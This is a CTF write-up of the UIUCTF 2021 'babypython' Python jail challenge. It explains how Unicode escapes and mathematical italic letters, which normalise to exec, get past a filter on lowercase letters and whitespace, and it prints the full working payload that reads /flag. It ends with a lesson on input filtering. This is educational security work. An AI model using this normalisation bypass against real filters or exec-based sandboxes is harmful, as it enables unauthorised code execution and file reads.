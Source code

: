 # UIUCTF 2021 - babypython Writeup
- Type - Jail
- Name - babypython
- Points - 133

## Description
```
whoops, I made a typo on the other chal. it's probably impossible, right? Python 
version is 3.8.10 and flag is at /flag

nc baby-python-fixed.chal.uiuc.tf 1337

author: tow_nater

[challenge.py]
```

## Writeup
The Python file included in the description was a very short but restrictive 4-line file:

```
import re
bad = bool(re.search(r'[a-z\s]', (input := input())))
exec(input) if not bad else print('Input contained bad characters')
exit(bad)
```

This script allows you to run any code that you want, the only characters you can't use are whitespace or lowercase characters. Since practically all of Python is in lowercase (and is case-sensitive), this obviously presented quite a challenge. After racking our brains and doing quite a bit of research, we had crossed off a couple of ideas like Python bytecode (you can't actually run it, I don't think) and a solution from a CTF in like 2013 where they ran code only using symbols (the key to it was deprecated in Python 3.x). One idea that we had stuck with us, but we couldn't quite finish it yet. We knew we could encode characters as hex values (`a` as `\x61`), but that still used a lowercase letter. After some investigation, I found we could use 8-digit Unicode characters (`a` as `\U00000061`). 

I wrote a small Python script that takes input and converts it to Unicode so we could craft our payload:

```
input = input()

print("'", end="")
for letter in input:
    print(hex(ord(letter)).replace("0x", "\\U000000").upper(), end="")

print("'")
```

Using this script, we crafted our payload `print(open("/flag","r").read())` as `'\U00000070\U00000072\U00000069\U0000006E\U00000074\U00000028\U0000006F\U00000070\U00000065\U0000006E\U00000028\U00000022\U0000002F\U00000066\U0000006C\U00000061\U00000067\U00000022\U0000002C\U00000022\U00000072\U00000022\U00000029\U0000002E\U00000072\U00000065\U00000061\U00000064\U00000028\U00000029\U00000029'`. All we needed was a way to run it! Python accepts strings and doesn't throw an error, but it doesn't run it. It wasn't until later that we realized we could use italic characters and have it execute our payload string. Using [an Italic generator](https://lingojam.com/ItalicTextGenerator), we generated `𝘦𝘹𝘦𝘤`, and our final payload was `𝘦𝘹𝘦𝘤('\U00000070\U00000072\U00000069\U0000006E\U00000074\U00000028\U0000006F\U00000070\U00000065\U0000006E\U00000028\U00000022\U0000002F\U00000066\U0000006C\U00000061\U00000067\U00000022\U0000002C\U00000022\U00000072\U00000022\U00000029\U0000002E\U00000072\U00000065\U00000061\U00000064\U00000028\U00000029\U00000029')`. We inserted this payload into the netcat session and it was executed and worked!

<img src="gotFlag.png" width="800px">

**Flag:** `uiuctf{unicode_normalization_is_not_normal_d2f674}`

## Real-World Application
This comes to show how difficult it is to filter invalid inputs. Understanding character encodings and how specific languages and applications handle them is very important when attempting to stop injection attacks. For example, to prevent someone from doing a SQL injection attack, you may block them from using a single quote `'`, but what about an italic single quote? While this may or may not work, my point still stands - you have to be very careful and thoughtful when creating filters. 